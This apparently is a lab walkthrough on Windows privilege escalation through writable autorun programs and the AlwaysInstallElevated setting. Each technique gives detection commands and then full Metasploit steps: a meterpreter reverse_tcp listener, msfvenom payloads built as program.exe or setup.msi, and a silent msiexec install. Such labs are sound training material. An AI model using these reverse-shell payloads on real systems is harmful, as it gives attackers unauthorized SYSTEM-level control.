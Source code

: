 # Escalation Path Registry

## Autorun

Autoruns refer to programs, scripts, or services that automatically execute when Windows starts or when a device (like a USB) is plugged in.

### Detection of Auto runs programs 

***Windows VM***

**Run Autoruns**:

Open *Command Prompt* and execute `Autoruns64.exe`.

```
**C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe**
```

Navigate to the *‘Logon’ tab* to check programs that auto-start at user login.

**Identify Vulnerable Entry**:

"My Program" is set to run automatically from:

```
C:\Program Files\Autorun Program\program.exe
```

**Check File Permissions**:

Use *AccessChk* to inspect permissions:
   
```
accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

The output shows **"Everyone" has FILE_ALL_ACCESS**, meaning **any user (even non-admins) can modify** `program.exe`.

**Exploitation Possibility**:

- Since `program.exe` runs at *logon*, an attacker can *replace it with a malicious file* (e.g., a reverse shell).

- Upon restart/login, the system will execute the attacker’s payload, potentially leading to **privilege escalation**.

### Exploitations

**Kali VM**

Open command prompt and type: 

```
msfconsole
```

In Metasploit (msf > prompt) type: 

```
use multi/handler
```  

In Metasploit (msf > prompt) type:

```
set payload windows/meterpreter/reverse_tcp
```  

In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]
```

In Metasploit (msf > prompt) type: 

```
run
```

Open an additional command prompt and type: 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe  
```

Copy the generated file, program.exe, to the Windows VM.

**Windows VM**

1. Place program.exe in `C:\Program Files\Autorun Program`  
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

**Kali VM**

1. Wait for a new session to open in Metasploit.  
2. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: `getuid`

## AlwaysInstallElevated

The **AlwaysInstallElevated"** setting in Windows allows **MSI (Microsoft Installer) packages** to install with **SYSTEM privileges**, even when run by a low-privileged user. If misconfigured, an attacker can exploit it to **gain full control (privilege escalation)**.

### Detection 

**Windows VM**

1. Open command prompt and type: 

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```  

From the output, notice that `AlwaysInstallElevated` value is `1`. 

2. In command prompt type: 

```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```  

From the output, notice that `AlwaysInstallElevated` value is `1`.

### Exploitation

**Kali VM**

Open command prompt and type: `msfconsole`  

In Metasploit (msf > prompt) type:

```
use multi/handler  
```

In Metasploit (msf > prompt) type: 

```
set payload windows/meterpreter/reverse_tcp  
```

In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]  
```

In Metasploit (msf > prompt) type: `run` 

Open an additional command prompt and type:

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi  
```

Copy the generated file, `setup.msi`, to the Windows VM. 

**Windows VM**

1.Place *setup.msi* in `C:\Temp`.  
2.Open command prompt and type: 

```
msiexec /quiet /qn /i C:\Temp\setup.msi
```

## regsrv (registry service)


